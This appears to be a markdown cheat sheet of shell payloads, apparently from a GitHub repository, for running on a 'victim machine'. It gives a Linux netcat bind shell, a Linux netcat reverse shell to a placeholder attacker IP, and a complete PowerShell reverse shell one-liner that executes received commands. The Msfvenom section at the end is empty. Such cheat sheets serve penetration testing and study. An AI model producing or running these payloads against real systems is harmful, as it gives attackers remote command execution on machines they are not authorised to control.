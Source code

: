 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the '<IP>' & '<Port>'

# Msfvenom

